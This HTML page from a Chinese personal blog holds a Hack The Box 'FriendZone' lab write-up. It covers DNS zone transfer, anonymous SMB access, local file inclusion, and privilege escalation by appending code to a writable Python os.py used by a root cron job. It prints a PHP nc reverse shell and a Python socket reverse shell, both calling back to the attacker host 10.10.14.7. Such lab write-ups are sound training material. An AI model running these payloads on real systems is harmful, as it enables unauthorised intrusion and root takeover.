


<!DOCTYPE html>
<html lang="zh-CN">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1.0, user-scalable=no">

    
      <link rel="icon" href="/favicon.jpg" />
    

    <title>
        
          FriendZone Writeup - 阿毛毛の坑
        
    </title>

    <!-- Spectre.css framework -->
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/spectre.css/0.5.9/spectre.min.css">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/spectre.css/0.5.9/spectre-exp.min.css">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/spectre.css/0.5.9/spectre-icons.min.css">

    <!-- theme css & js -->
    
<link rel="stylesheet" href="/css/book.css">

    
<script src="/js/book.js"></script>


    <!-- tocbot -->
    <script src="https://cdnjs.cloudflare.com/ajax/libs/tocbot/4.4.2/tocbot.min.js"></script>
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/tocbot/4.4.2/tocbot.css">
    
    <!-- katex -->
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/KaTeX/0.10.0/katex.min.css">

    
    
<script src="https://cdnjs.cloudflare.com/ajax/libs/zooming/2.1.1/zooming.min.js"></script>
<script>
document.addEventListener('DOMContentLoaded', function () {
    const zooming = new Zooming()
    zooming.listen('.book-content img')
})
</script>

<meta name="generator" content="Hexo 5.2.0"></head>

<body>

<div class="book-container">
  <div class="book-sidebar">
    <div class="book-brand">
  <a href="/">
    
    <span>阿毛毛の坑</span>
  </a>
</div>
    <div id="menu" class="book-menu hide">
  <h1 id="Initialized-on">Initialized on</h1>
<h1 id="November-4-2020">November 4, 2020</h1>
<ul>
<li><a href="/Changelog">Changelog</a></li>
</ul>
<h1 id="">-</h1>
<h1 id="WEAPONRY"><strong>[ WEAPONRY ]</strong></h1>
<ul>
<li><a href="/weaponry/cheat-sheet/Unname">Unname</a></li>
<li><a href="/weaponry/cheat-sheet/Reverse-Shell">Reverse Shell</a></li>
<li><a href="/weaponry/cheat-sheet/File-Transfer">File Transfer</a></li>
<li><a href="/weaponry/priv-esc/Linux-Priv-Esc">Linux Priv Esc</a></li>
<li><a href="/weaponry/cheat-sheet/MSFVenom">MSFVenom</a></li>
</ul>
<h2 id="Kali">Kali</h2>
<ul>
<li><a href="/weaponry/kali/KALI-Deploy">KALI Deploy</a></li>
<li><a href="/weaponry/kali/Common-Problems">Common Problems</a></li>
</ul>
<h1 id="-v2">-</h1>
<h1 id="OSCP-BATTLE"><strong>[ OSCP BATTLE ]</strong></h1>
<ul>
<li><a href="/oscp/In-The-Beginning">In The Beginning</a></li>
</ul>
<h2 id="Prepration">Prepration</h2>
<ul>
<li><a href="/oscp/Prepration/Training-Plan">Training Plan</a></li>
<li><a href="/oscp/Prepration/Learning-Plan">Learning Plan</a></li>
<li><a href="/oscp/Prepration/Resources">Resources</a></li>
</ul>
<h2 id="Note">Note</h2>
<ul>
<li><a href="/oscp/Note/Nmap-Tips">Nmap Tips</a></li>
<li><a href="/oscp/Note/Version-Compare">Version Compare</a></li>
</ul>
<h1 id="-v3">-</h1>
<h1 id="Hack-The-Box-Writeup"><strong>[ Hack The Box Writeup ]</strong></h1>
<ul>
<li><a href="/htb/HTB-Environment">HTB Environment</a></li>
</ul>
<h2 id="HTB-Linux">HTB Linux</h2>
<ul>
<li><a href="/htb/htb-linux/Lame-Writeup">Lame Writeup</a></li>
<li><a href="/htb/htb-linux/Shocker-Writeup">Shocker Writeup</a></li>
<li><a href="/htb/htb-linux/Bashed-Writeup">Bashed Writeup</a></li>
<li><a href="/htb/htb-linux/Beep-Writeup">Beep Writeup</a></li>
<li><a href="/htb/htb-linux/Nibbles-Writeup">Nibbles Writeup</a></li>
<li><a href="/htb/htb-linux/Sense-Writeup">Sense Writeup</a></li>
<li><a href="/htb/htb-linux/Valentine-Writeup">Valentine Writeup</a></li>
<li><a href="/htb/htb-linux/Irked-Writeup">Irked Writeup</a></li>
<li><a href="/htb/htb-linux/FriendZone-Writeup">FriendZone Writeup</a></li>
<li><a href="/htb/htb-linux/Swagshop-Writeup">Swagshop Writeup</a></li>
</ul>
<h2 id="HTB-Windows">HTB Windows</h2>
<ul>
<li><a href="/">nothing here</a></li>
</ul>
<h1 id="-v4">-</h1>
<h1 id="Cyber-Security"><strong>[ Cyber Security ]</strong></h1>
<h2 id="Skills">Skills</h2>
<ul>
<li><a href="/">skills</a></li>
</ul>
<h2 id="Analize">Analize</h2>
<ul>
<li><a href="/">vuls</a></li>
</ul>
<h1 id="-v5">-</h1>
<h1 id="Essay"><strong>[ Essay ]</strong></h1>
<ul>
<li><a href="/">该做题了</a></li>
</ul>

</div>


<script src="/js/book-menu.js"></script>

  </div>

  <div class="sidebar-toggle" onclick="sidebar_toggle()" onmouseover="add_inner()" onmouseleave="remove_inner()">
  <div class="sidebar-toggle-inner"></div>
</div>

<script>
function add_inner() {
  let inner = document.querySelector('.sidebar-toggle-inner')
  inner.classList.add('show')  
}

function remove_inner() {
  let inner = document.querySelector('.sidebar-toggle-inner')
  inner.classList.remove('show')
}

function sidebar_toggle() {
    let sidebar_toggle = document.querySelector('.sidebar-toggle')
    let sidebar = document.querySelector('.book-sidebar')
    let content = document.querySelector('.off-canvas-content')
    if (sidebar_toggle.classList.contains('extend')) { // show
        sidebar_toggle.classList.remove('extend')
        sidebar.classList.remove('hide')
        content.classList.remove('extend')
    }
    else { // hide
        sidebar_toggle.classList.add('extend')
        sidebar.classList.add('hide')
        content.classList.add('extend')
    }
}
</script>

  <div class="off-canvas-content">
    <div class="columns">
      <div class="column col-10 col-lg-12">
        <div class="book-navbar">
          <!-- For Responsive Layout -->

<header class="navbar">
  <section class="navbar-section">
    <a onclick="open_sidebar()">
      <i class="icon icon-menu"></i>
    </a>
  </section>
</header>

        </div>
        <div class="book-content">
          <div class="book-post">
  <h1 id="FriendZone-Writeup">FriendZone Writeup</h1>
<p></p>
<h2 id="0x00-TODO">0x00 TODO</h2>
<p><code>php://filter/covert.base64-encode/resource=&#123;papgename&#125;</code> 的操作为啥不能用？待了解。</p>
<h2 id="0x01-信息收集">0x01 信息收集</h2>
<h3 id="1、TCP-Scan">1、TCP Scan</h3>
<pre class="language-bash" data-language="bash"><code class="language-bash">nmap -A -p- -oA nmap/tcp <span class="token number">10.10</span>.10.123</code></pre>
<p>开放端口不少，可能是一个比较灵活的盒子。</p>
<ul>
<li><strong>21</strong>: vsftpd 3.0.3，版本较高</li>
<li><strong>22</strong>: OpenSSH 7.6p1，版本较高</li>
<li><strong>53</strong>: ISC BIND 9.11.3-1ubuntu1.2，域名解析服务，可能涉及到域名</li>
<li><strong>80</strong>: apache 2.4.29，版本较高，web 页面 title Friendxxx</li>
<li><strong>139</strong>: samba 3.x ~ 4.x，可能是漏洞版本</li>
<li><strong>443</strong>: apache 2.4.29，版本较高，web 页面 title 404</li>
<li><strong>445</strong>: samba smbd 4.7.6，版本较高</li>
</ul>
<p></p>
<h3 id="2、UDP-Scan">2、UDP Scan</h3>
<pre class="language-bash" data-language="bash"><code class="language-bash">nmap -sU -A -p- -oA nmap/udp <span class="token number">10.10</span>.10.123</code></pre>
<ul>
<li><strong>53</strong>: ISC BIND 9.11.3-1ubuntu1.2，域名解析服务，可能涉及到域名</li>
<li><strong>139</strong>: samba 3.x ~ 4.x，可能是漏洞版本。</li>
</ul>
<p><strong>共开放了 <code>tcp 21、22、53、80、139、443、445</code>、<code>udp 53、139</code> 端口。</strong></p>
<h2 id="0x02-枚举">0x02 枚举</h2>
<p>我去啊，这些个端口的服务查了一遍下来没有公开漏洞，版本都比较高，直接漏洞打看似不太可能。</p>
<h3 id="1、Port-21、22">1、Port 21、22</h3>
<p>没找到公开漏洞。<br>
FTP 尝试匿名登录，登录失败。</p>
<pre class="language-bash" data-language="bash"><code class="language-bash"><span class="token function">ftp</span> <span class="token number">10.10</span>.10.123
Name:       anonymous
Password:   <span class="token punctuation">(</span>blank<span class="token punctuation">)</span></code></pre>
<p><br>
没啥其他内容，放着。</p>
<h3 id="2、Port-53">2、Port 53</h3>
<p>没找到公开漏洞。<br>
<code>ISC BIND</code> 是个 <code>域名解析服务</code>，暂时不知道有啥用，可能有用，先做个记录。</p>
<h3 id="3、Port-139、445">3、Port 139、445</h3>
<p>没找到公开漏洞。<br>
如同 <code>FTP</code>，对于 <code>SMB</code> 首先要检查能否匿名登录，列出共享目录以及权限，是必要操作。这里登录成功。</p>
<pre class="language-bash" data-language="bash"><code class="language-bash"><span class="token comment"># 查看文件目录 &amp; 权限</span>
smbmap -H <span class="token number">10.10</span>.10.123
<span class="token comment"># 匿名登录，翻找是否有敏感数据</span>
smbclient //10.10.10.123</code></pre>
<p><code>/Development</code> 可读可写，空文件夹；<br>
<code>/general</code> 仅可读，里面找到一个 <code>creds.txt</code>，下载到本地打开，看似是 <code>admin</code> 密码，存一下。</p>
<p><br>
</p>
<h3 id="4、Port-80、443">4、Port 80、443</h3>
<p>没找到公开漏洞。<br>
打开主页 <code>http://10.10.10.123</code>，是一个空白页，<code>dirbuster</code> 跑一下目录找到个 <code>/wordpress</code> 啥都没有。</p>
<p>好像走到死胡同，没有找到其他突破口，这时候要<strong>回顾之前收集的信息看有没有遗漏、之前收集的线索有没有没用上、或者还不知道怎么用的</strong>。</p>
<h4 id="4-1、发现路由配置">4.1、发现路由配置</h4>
<p>回顾 nmap 扫描结果里 <code>80</code> 和 <code>443</code> 有不同页面，直接打开 <code>https://10.10.10.123</code> 是 404，想到<strong>可能存在特定路由配置，需要域名才能访问</strong>。<br>
应该是什么域名呢？翻一遍前面的信息，找找是否有提示。</p>
<ul>
<li>根据主页的信息 <code>Email us at: info@firendzoneportal.red</code>，得到域名1 <code>friendzoneportal.red</code>。</li>
<li>根据 <code>nmap 443</code> 扫描结果 <code>ssl-cert: commonName=friendzone.red</code>，得到域名2 <code>friendzone.red</code>。</li>
</ul>
<p>添加 <code>/etc/hosts</code> 本地解析，浏览器打开 <code>https://friendzoneportal.red，https://friendzone.red</code>，果然是另一个页面。</p>
<pre class="language-bash" data-language="bash"><code class="language-bash">$ <span class="token function">vi</span> /etc/hosts
<span class="token number">10.10</span>.10.123    friendzoneportal.red friendzone.red</code></pre>
<p><br>
</p>
<blockquote>
<p>查看页面源代码，<code>https://friendzone.red</code> 主页下注释了神秘路径 <code>/js/js</code>，打开没啥内容，不知道有啥用。</p>
<p></p>
</blockquote>
<p>联系之前扫到的 53 端口 BIND 服务，靶机可能自身是一个 <code>DNS Server</code>，可能还有其他的子域名，先从靶机地址捞一波解析记录，反查域名，得到许多子域。</p>
<pre class="language-bash" data-language="bash"><code class="language-bash"><span class="token comment"># dig</span>
<span class="token function">dig</span> axfr @10.10.10.123 friendzone.red
<span class="token function">dig</span> axfr @10.10.10.123 friendzoneportal.red
<span class="token comment"># host</span>
<span class="token function">host</span> -l friendzone.red <span class="token number">10.10</span>.10.123
<span class="token function">host</span> -l friendzoneportal.red <span class="token number">10.10</span>.10.123</code></pre>
<p></p>
<p>处理一下结果获得 9 个子域名，全部加入本地解析。</p>
<pre class="language-bash" data-language="bash"><code class="language-bash"><span class="token function">cat</span> fzt <span class="token operator">|</span> <span class="token function">grep</span> IN <span class="token operator">|</span> <span class="token function">awk</span> <span class="token string">'&#123;print <span class="token variable">$1</span>&#125;'</span> <span class="token operator">|</span> <span class="token function">sed</span> <span class="token string">'s/\.$//g'</span> <span class="token operator">|</span> <span class="token function">sort</span> -u <span class="token operator">></span> hosts <span class="token comment"># awk 默认按 tab/space 分割，cut 默认按 tab </span>
$ <span class="token function">vi</span> hosts
admin.friendzoneportal.red 
administrator1.friendzone.red 
files.friendzoneportal.red 
friendzoneportal.red
friendzone.red
hr.friendzone.red
imports.friendzoneportal.red 
uploads.friendzone.red
vpn.friendzoneportal.red 
:%s/<span class="token punctuation">\</span>n/ /g</code></pre>
<p><br>
于是又多了一大堆站点可以耍，走出刚刚的死胡同。</p>
<h4 id="4-2、新一轮的-web-枚举">4.2、新一轮的 web 枚举</h4>
<p>浏览了上面9个域名，只有5个有页面，dirbuster 跑目录的同时，手工渗透。</p>
<pre class="language-bash" data-language="bash"><code class="language-bash">friendzoneportal.red
admin.friendzoneportal.red       
friendzone.red
administrator1.friendzone.red  
uploads.friendzone.red
hr.friendzone.red               <span class="token comment"># 404</span>
imports.friendzoneportal.red    <span class="token comment"># 404</span>
files.friendzoneportal.red      <span class="token comment"># 404</span>
vpn.friendzoneportal.red        <span class="token comment"># 404</span></code></pre>
<p>目录啥也没跑出来。<br>
首先全部访问一下，有个工具 <code>aquatone</code> 类似 web 探测器，没装，手工访问一遍，这里<strong>一定要 <code>http</code> 和 <code>https</code> 都试一下，可能有不同结果</strong>。</p>
<ul>
<li><code>friendzoneportal.red</code> 之前看了没东西，排除。</li>
<li><code>friendzone.red</code> 之前看了没东西，排除。</li>
<li><code>admin.friendzoneportal.red</code> 页面登录默认页面 <code>login.php</code> 无论传什么参数返回都一样，功能欠缺，先放着。</li>
<li><code>administrator1.friendzone.red</code> 登录页，有搞头。</li>
<li><code>uploads.friendzone.red</code> 上传页，有搞头。</li>
</ul>
<p>着重看后面两域名。</p>
<h4 id="4-3、登录页-https-administrator1-friendzone-red">4.3、登录页 <code>https://administrator1.friendzone.red</code></h4>
<p><br>
使用之前拿到的 admin 账密登录成功。</p>
<p></p>
<h4 id="4-3、上传页-https-uploads-friendzone-red">4.3、上传页 <code>https://uploads.friendzone.red</code></h4>
<p>哦豁，上传点，加前面的传参解析，离成功不远了。</p>
<p></p>
<h2 id="0x03-立足点">0x03 立足点</h2>
<p>根据页面提示传参 <code>https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&amp;pagename=timestamp</code>，拿到图片路径 <code>/images</code>，发现有还有图片 <code>b.jpg</code>，修改 <code>image_id=b.jpg</code>，可见图片和下方内容随之变化。</p>
<p></p>
<p>根据 <code>参数名和现象</code>，初步判定：</p>
<ul>
<li><strong>image_id</strong> 指定图片路径。</li>
<li><strong>timestamp</strong> 指定页面文件，猜测与文件包含有关，像后端自动给参数加上后缀 <code>.php</code>。</li>
</ul>
<p>验证猜想，访问 <code>https://administrator1.friendzone.red/timestamp.php</code>，得到以下页面，内容正是上方页面里左下角部分，说明 <code>pagename</code> 参数存在本地文件包含，所以只要想办法上传脚本令其包含即可。</p>
<p></p>
<p>在上传页 <code>https://uploads.friendzone.red</code> 尝试上传 <code>.php</code> <code>.jpg</code>，得到成功字样和一个时间戳。</p>
<pre class="language-php" data-language="php"><code class="language-php">$ vi info.php
<span class="token php language-php"><span class="token delimiter important">&lt;?php</span> <span class="token function">phpinfo</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">;</span><span class="token delimiter important">?></span></span>  # 上传的文件</code></pre>
<p><br>
但是没有返回文件地址，<code>/images</code> 也没有留存文件，那上传到底成没成功？还是要枚举一番？<br>
尝试过 <code>文件名/带后缀/不带后缀/返回的时间戳</code> 花式组合分别放在 <code>image_id</code> <code>pagename</code> 均没用，前端就是看不到内容。难道根本没有上传成功？</p>
<blockquote>
<p>当存在文件包含时，往往只能看见执行后的文件，如果能知道脚本里写了什么，是不是就能很快判定这里上传逻辑了呢。<br>
那么要怎么获得执行前的脚本文件？据说有这么个姿势，会返回相应页面的 base64，解码可得页面内容。</p>
<pre class="language-text" data-language="text"><code class="language-text">https:&#x2F;&#x2F;administrator1.friendzone.red&#x2F;dashboard.php?image_id&#x3D;a.jpg&amp;pagename&#x3D;php:&#x2F;&#x2F;filter&#x2F;covert.base64-encode&#x2F;resource&#x3D;login</code></pre>
<p>但是实操无效，原因未知。</p>
</blockquote>
<p>假设这里没有上传成功怎么办，是否还有其他上传点？那几个域名再检查了一遍均无果，最后想到 <strong>smb 还有一个可写文件夹</strong>。</p>
<p>上传 <code>info.php</code>，尝试包含。</p>
<pre class="language-bash" data-language="bash"><code class="language-bash">smbclient //10.10.10.123/Development
<span class="token operator">></span> put info.php</code></pre>
<p><br>
根据文件夹备注，<code>/Development</code> 文件夹在服务器对应的地址是 <code>/etc/Development</code>。</p>
<p><br>
访问 <code>https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&amp;pagename=/etc/Development/info</code> 查看是否包含了我们的 <code>info.php</code>，发现成功包含。</p>
<p><br>
最后上传反弹 shell 脚本，访问页面令后端包含，在 kali getshell。</p>
<pre class="language-php" data-language="php"><code class="language-php"><span class="token php language-php"><span class="token delimiter important">&lt;?php</span> <span class="token function">system</span><span class="token punctuation">(</span><span class="token single-quoted-string string">'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&amp;1|nc 10.10.14.7 4444 >/tmp/f'</span><span class="token punctuation">)</span><span class="token punctuation">;</span><span class="token delimiter important">?></span></span></code></pre>
<p></p>
<h2 id="0x04-提权">0x04 提权</h2>
<p>上线了先检查配置。</p>
<h3 id="1、SUID">1、SUID</h3>
<p>找到一个 <code>exim4 4.90.1</code> 是漏洞版本，试过 exp 不行。</p>
<p><br>
</p>
<h3 id="2、Sudo">2、Sudo</h3>
<p>在 <code>/var/www/</code> 找到一个 mysql 配置文件，是 <code>friend</code> 用户密码，尝试 <code>su friend</code> 成功切换用户。</p>
<p><br>
在 <code>/home/friend</code> 找到 <code>user.txt</code>，是普通 flag，根据经验用 <code>ls -la</code> 看了一下发现隐藏文件 <code>.sudo_as_admin_successful</code>，似乎直接可以执行 root 命令？<br>
然鹅 <code>sudo su</code> 失败。</p>
<p></p>
<h3 id="3、Crontab">3、Crontab</h3>
<p>传一个 <code>pspy64s</code> 监控定时任务，发现执行了一个 <code>python</code> 脚本。</p>
<p><br>
但是查看权限发现不可写，再查看下内容，主要代码逻辑是注释掉的。</p>
<p><br>
脚本里 <code>import os</code>。<strong>脚本不可写，导入的库却不一定</strong>，<code>locate os.py</code> 定位库文件，查看一下权限，是可写的。</p>
<p><br>
向 <code>/usr/lib/python2.7/os.py</code> 追加 python 反弹 shell 代码。</p>
<pre class="language-bash" data-language="bash"><code class="language-bash"><span class="token builtin class-name">echo</span> <span class="token string">'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect<span class="token variable"><span class="token punctuation">((</span>"<span class="token number">10.10</span><span class="token number">.14</span><span class="token number">.7</span>"<span class="token punctuation">,</span><span class="token number">4445</span><span class="token punctuation">))</span></span>;dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</span> <span class="token operator">>></span> /usr/lib/python2.7/os.py</code></pre>
<p><br>
本地开启监听 <code>nc -lnvp 4445</code>，等待定时任务启动，获得 root shell。</p>
<p></p>
<h2 id="0x05-攻击节点">0x05 攻击节点</h2>
<h4 id="信息收集-80-53-DNS-域传输漏洞获得子域名-445-samba-匿名登录-文件写入-443-本地文件包含-www-data-crontab-定时任务-劫持-os-py-root">信息收集 -&gt; 80/53.DNS 域传输漏洞获得子域名 -&gt; 445.samba 匿名登录 + 文件写入 -&gt; 443.本地文件包含(www-data) -&gt; crontab 定时任务+劫持 <a target="_blank" rel="noopener" href="http://os.py">os.py</a>(root)</h4>
<h2 id="0x06-学到什么">0x06 学到什么</h2>
<h4 id="1、443-的证书信息要多看，可能包含比如域名信息。">1、443 的证书信息要多看，可能包含比如域名信息。</h4>
<h4 id="2、web-应用多留意域名路由配置，考虑域传输漏洞。">2、web 应用多留意域名路由配置，考虑域传输漏洞。</h4>
<h4 id="3、ftp、smb-先尝试是否允许匿名登录。">3、ftp、smb 先尝试是否允许匿名登录。</h4>
<h4 id="4、samba-文件夹备注要多留意，否则错过潜在的关键信息。">4、samba 文件夹备注要多留意，否则错过潜在的关键信息。</h4>
<h4 id="5、文件的上传可以有多种方式，不必死磕一处，多回顾之前收集的信息，灵活应对。">5、文件的上传可以有多种方式，不必死磕一处，多回顾之前收集的信息，灵活应对。</h4>
<h4 id="6、遇到-root-执行文件无可写权限，尝试劫持其引用的外部文件，或许是可写的。">6、遇到 root 执行文件无可写权限，尝试劫持其引用的外部文件，或许是可写的。</h4>

</div>


  <div class="book-comments">
    


  </div>


<script src="/js/book-post.js"></script>

        </div>
      </div>
      <div class="column col-2 hide-lg">
        <div class="book-post-info">
  
    <div class="book-post-meta">

  <div class="author">

    <!-- Author image -->
    <div class="author-img">
      
        <figure class="avatar avatar-lg">
          
        </figure>
      
    </div>

    <!-- Author title -->
    <div class="author-title">
      <div>amm907</div>
      <div>2020-12-01</div>
    </div>
  </div>

  
    <div class="divider"></div>

    <div class="link">
      <a class="category-link" href="/categories/Hack-The-Box/">Hack The Box</a>

      
    </div>
    
  

  <div class="divider"></div>
</div>
  

  <div class="book-tocbot">
</div>
<div class="book-tocbot-menu">
  <a class="book-toc-expand" onclick="expand_toc()">Expand all</a>
  <a onclick="go_top()">Back to top</a>
  <a onclick="go_bottom()">Go to bottom</a>
</div>


<script src="/js/book-toc.js"></script>

</div>
      </div>
    </div>
  </div>
  
  <a class="off-canvas-overlay" onclick="hide_canvas()"></a>
</div>

</body>
</html>


<script src="/js/book.js"></script>
